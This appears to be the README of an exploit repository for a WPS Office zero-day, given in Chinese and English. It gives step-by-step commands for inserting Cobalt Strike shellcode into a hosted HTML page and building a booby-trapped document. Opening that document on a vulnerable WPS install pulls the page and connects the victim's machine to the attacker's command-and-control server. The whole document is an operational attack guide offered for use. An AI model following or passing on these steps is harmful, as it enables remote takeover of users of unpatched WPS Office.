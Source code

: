 ﻿# WPS-0DAY-20230809
WPS Office 2023个人版＜11.1.0.15120; WPS Office 2019企业版＜11.8.2.12085 

## 使用方法

1. python replace_shellcode.py shellcode_32_raw.bin

   > 我这里使用的是CS中32位的payload, 使用replace_shellcode.py, 将1.html中的shellcode进行替换, 然后将1.html上传到你的托管地址, 例如: http://127.0.0.1/1.html

2. python exp.py poc.docx http://127.0.0.1/1.html

   > 替换poc.docx中的URL, 也就是你的托管地址

3. 双击文档即可上线CS


# WPS-0DAY-20230809
WPS Office 2023 Personal Edition ＜11.1.0.15120; WPS Office 2019 Enterprise Edition ＜11.8.2.12085 
## Usage
1. `python replace_shellcode.py shellcode_32_raw.bin`
   > Here, I am using a 32-bit payload from CS. Use `replace_shellcode.py` to replace the shellcode in `1.html`, then upload `1.html` to your hosting address, for example: http://127.0.0.1/1.html
2. `python exp.py poc.docx http://127.0.0.1/1.html`
   > Replace the URL in `poc.docx`, which is your hosting address
3. Double-click the document to connect to CS

   
